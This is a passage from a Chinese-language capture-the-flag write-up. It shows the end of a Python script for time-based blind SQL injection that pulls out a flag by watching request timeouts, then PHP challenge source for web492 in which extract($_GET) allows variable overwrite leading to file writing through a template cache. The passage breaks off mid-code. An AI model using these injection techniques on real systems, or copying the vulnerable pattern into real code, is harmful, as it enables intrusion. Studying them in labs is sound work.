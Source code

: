 ```python
                response = requests.get(url + payload + end, timeout=2)
                # print(response.url)
            except:
                flag += y
                print(flag)
                break
        if y == '@':
            break
    return flag
if __name__=='__main__':
    #flag,user
    #ret=get_table_name()
    #print(ret)
    #flag
    #columns=get_flag_columns()
    flag = get_flag2()
    print(flag)
```

这里可以总结下两种判断延时注入的方法，一种是 `time2-time1` ，一种是请求时用 `timeout` 参数和 `try except`

## web492

关键代码 `../index.php` ：

```php
$action=$_GET['action'];
if($action=='check'){
    extract($_GET);
    if(preg_match('/^[A-Za-z0-9]+$/', $username)){
        $sql = "select username from user where username = '".$username."' and password='".md5($password)."' order by id limit 1";
        $user=db::select_one_array($sql);
    }
    if($user){//$user没有初始化
        templateUtil::render('index',$user); //一路跟下去是写文件的危险函数
    }else{
        templateUtil::render('error');
    }
}
```

`../render/render_class.php`

```php
<?php

include('file_class.php');
include('cache_class.php');

class templateUtil {
	public static function render($template,$arg=array()){
		if(cache::cache_exists($template)){
			echo cache::get_cache($template);
		}else{
			$templateContent=fileUtil::read('templates/'.$template.'.php');
			$cache=templateUtil::shade($templateContent,$arg);
			cache::create_cache($template,$cache);
			echo $cache;
		}
	}
	public static  function shade($templateContent,$arg){
		foreach ($arg as $key => $value) {
			$templateContent=str_replace('{{'.$key.'}}', '<！--'.$value.'-->', $templateContent);//此处要绕过注释
```